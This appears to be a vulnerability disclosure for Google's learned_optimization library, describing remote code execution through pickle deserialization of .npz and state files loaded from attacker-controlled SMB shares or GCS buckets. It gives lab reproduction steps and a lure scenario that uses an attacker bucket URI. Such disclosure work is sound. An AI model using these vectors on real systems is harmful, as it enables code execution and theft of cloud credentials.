


# `learned_optimization` - Version `v.0.0.1` (`PiperOrigin-RevId: 888266025`) / Remote Code Execution (RCE) via Insecure Deserialization 

* https://github.com/google/learned_optimization

## Introduction

**Usually, insecure deserialization vulnerabilities using `pickle` are related to the deserialization of a `.pkl` file (among others), which turns the vulnerability into a sort of out-of-scope "self-command-injection".**

**However, below are one (1) way to reproduce RCE in `learned_optimization` using an `SMB` share controlled by an attacker, without local intervention by a third party to modify files that allow code execution during the deserialization process.**

**For this PoC, two (2) different devices were used to simulate the interaction between an attacking machine (Raspberry Pi with IP 192.168.1.90) and a victim machine (Windows with IP 192.168.1.88).**

### The vulnerable code in `learned_optimization\baselines\utils.py`:

The `read_npz` function is used to load baseline results and archives. It uses `filesystem.file_open` (which supports remote URIs) and passes the content to `numpy.load` with `allow_pickle=True`, enabling the execution of arbitrary Python objects during deserialization.

```python
def read_npz(path: str) -> Optional[Mapping[str, Any]]:
  """Read a numpyz file from the `path`."""
  with filesystem.file_open(path, "rb") as f:
    content = f.read()
  io_buffer = io.BytesIO(content)
  try:
    # INSECURE: numpy.load with allow_pickle=True on untrusted data
    return {k: v for k, v in onp.load(io_buffer, allow_pickle=True).items()}
```

## Technical Impact Analysis

### Project Purpose & Context

`learned_optimization` is a research library developed by **Google** for training learned optimizers using JAX. It is designed for meta-learning research at scale, where researchers meta-train optimizers on a wide variety of tasks. The project handles complex state serialization for distributed training and utilizes a shared filesystem abstraction to allow seamless movement of data between local and cloud storage.

### Platform & Deployment Environment

The library is typically deployed in high-performance computing (HPC) environments:
*   **Google Cloud TPU/GPU Pods**: Large-scale distributed meta-training.
*   **Research Workstations & Colab**: For rapid prototyping and analysis of meta-learning results.
*   **MLOps & Research Pipelines**: Integrated into workflows that exchange model checkpoints and baseline archives across Google Cloud Storage (GCS) buckets.

### Comprehensive Risk Assessment

The vulnerability is rated as **Critical**. The ability to trigger RCE through network URIs (UNC/GCS) completely bypasses the local trust boundary. Because these tools are used to orchestrate expensive compute resources, a compromise can lead to massive resource theft, exfiltration of high-value research IP, and lateral movement within secure research VPCs that host sensitive research datasets.


## Attack Scenario

### Who wants to exploit a particular vulnerability?

Adversaries targeting AI/ML research divisions, industrial competitors looking for optimized optimizer architectures, or malicious actors seeking to hijack high-performance compute nodes (TPU/GPU pods) for cryptomining or as nodes in a botnet.

### For what gain?

The objectives include exfiltration of proprietary research (model architectures and weights), harvesting of cloud credentials (GCP/IAM) from environment variables, and achieving long-term persistence within high-compute research infrastructure.

### In what way?

Attackers can leverage several remote vectors:
1.  **Poisoning Baseline Archives**: Providing a malicious URI pointing to an attacker-controlled SMB share or GCS bucket as the `LOPT_BASELINE_ARCHIVES_DIR`.
2.  **Reproduction Metadata Injections**: Suggesting a malicious `--train_log_dir` in reproducibility guides for new research papers, forcing the victim's `PopulationController` to fetch a malicious state.
3.  **Distributed RPC Manipulation**: Targeting the unauthenticated Courier RPC interfaces to inject malicious task configurations or weights into a running training job.


# Reproduction steps

## On the Raspberry (attacker)

```bash
kw0@kw0l4b:~ $ hostname -I | awk '{print $1}'
192.168.1.90
kw0@kw0l4b:~ $
```

### Shared Resource Configuration (SMB):

1. **Install Samba**: `sudo apt update && sudo apt install samba samba-common-bin -y`

2. **Prepare the attack directory**:

```bash
mkdir ~/lab_attack
chmod 755 /home/kw0  # Allows Samba to access the HOME
chmod -R 777 ~/lab_attack
```

3. **Configure Samba**: Add to the end of `/etc/samba/smb.conf`:

```
[lab_share]
path = /home/kw0/lab_attack
read only = no
guest ok = yes
```

1. **Payload Generation on the Raspberry**:

Run the specialized `exploit.py` script to generate the `adam_baseline.npz` file directly in the shared path:
```bash
python exploit.py
```



## On Windows (victim)

```powershell
PS L:\Pickle-RCE-Finder\learned_optimization> Get-NetIPAddress -AddressFamily IPv4 | Where-Object PrefixOrigin -eq "Dhcp" | Select-Object -ExpandProperty IPAddress
192.168.1.88
PS L:\Pickle-RCE-Finder\learned_optimization>
```

## Technical Requirements

*   Create and activate a Python enviromnet
    *   `python -m venv .venv`
*   Active de the .venv
    *   `.venv\Scripts\activate`
*   Install the `requirements_rce.txt`
    *   By default, `learned_optimization` project uses an old `requirements.txt` file that produces errors, to avoid that, I've created a custom `requirements_rce.txt` that fix package dependency issues.

```bash
pip install requirements_rce.txt
```

### Exploit Execution:

1. **Set the environment pointing to the SMB share**:

```powershell
$env:LOPT_BASELINE_ARCHIVES_DIR = "\\192.168.1.90\lab_share\"
```

3. **Launch deserialization**:

```powershell
python -c "from learned_optimization.baselines import utils; utils.load_archive('mnist', 'adam_baseline')"
```



# Other RCE vectors in `learned_optimization` remotely controlled by an attacker

## 1. Vector #1: Cloud Storage Abstraction (The Proxy Bridge)
The root of the "Reversed Context" lies in the `filesystem.py` module, which acts as a global wrapper for all file operations.

### Technical Detail
- **File**: `learned_optimization/filesystem.py`
- **Mechanism**: The `_path_on_gcp` function detects `gs://` prefixes, and `file_open` switches from native `open()` to `tensorflow.io.gfile.GFile`.

```python
def _path_on_gcp(path: str) -> bool:
  prefixes = ["gs://"]
  return any([path.startswith(p) for p in prefixes])

def file_open(path: str, mode: str):
  if _path_on_gcp(path):
    return tf.io.gfile.GFile(path, mode)
  return open(path, mode)
```

> [!WARNING]
> This abstraction means that any logic expecting a "file path" is actually an **SSRF-to-Deserialization** surface. An attacker does not need to modify local files; they only need to provide a remote URI that the application will treat as a local stream.

---

## 2. Vector #2: Population Based Training (Critical Sink)
The most high-impact RCE vector identified exists in the `PopulationController` state management.

### Technical Detail
- **File**: `learned_optimization/population/population.py`
- **Method**: `load_state()`
- **Sink**: `pickle.loads(content)`
- **Path Control**: The `path` is constructed using `self._log_dir`.

### Analysis
The `PopulationController` is initialized with a `log_dir` provided by the `setup_experiment` module. In distributed training, this `log_dir` (passed via `--train_log_dir` CLI flag) can be set to any URI. When `load_state` is called, it performs a remote fetch of `population.state` from the bucket and immediately executes the payload during deserialization.

---

## 3. Vector #3: Baseline Results & NumPy Archives
The project includes utilities for loading precomputed results and archives, which are common entry points for researchers.

### Technical Detail
- **File**: `learned_optimization/baselines/utils.py`
- **Function**: `read_npz(path)`
- **Sink**: `numpy.load(io_buffer, allow_pickle=True)`
- **Control Vector**: `LOPT_BASELINE_ARCHIVES_DIR` (Environment Variable)

### Deep Dive
By setting the environment variable `LOPT_BASELINE_ARCHIVES_DIR` to a public-writable bucket (e.g., `gs://public-research-archive/`), an attacker can supply malicious `.npz` files (which are Zip files containing pickled NumPy arrays). When a user tries to "load a baseline" to compare results, the RCE is triggered remotely.

---

## 4. Vector #4: Distributed Training RPC (Courier Surface)
The project relies on Google's `courier` for RPC between the **Learner** and **Workers**.

### Technical Detail
- **File**: `learned_optimization/distributed.py`
- **Protocol**: Courier RPC
- **Exposure**: `AsyncLearner` and `SyncLearner` bind service methods to open ports.

### Analysis
Courier, by default, often lacks robust authentication in research environments. The `put_grads` and `get_weights` methods exchange complex Python objects. If the transport layer uses Pickle (common in JAX/Flax research for speed), an attacker who can reach the Learner's port can submit a malicious "gradient" object that executes code upon the Learner's attempt to access or aggregate it.

---

## 5. Exploit Scenario: The "Public Log Dir" Trap
An attacker publishes a "reproducibility" guide for a new optimization technique, suggesting users run the trainer pointing to their "results" bucket for initialization:

```bash
python run_outer_trainer.py --train_log_dir=gs://attacker-research-data/experiment_v1/
```

1. The application initializes `setup_experiment`.
2. `PopulationController` is created with `log_dir=gs://attacker-research-data/experiment_v1/`.
3. `load_state()` fetches `gs://attacker-research-data/experiment_v1/population.state`.
4. **Result**: Immediate RCE in the context of the user running the training script, with access to their GCP credentials/environment.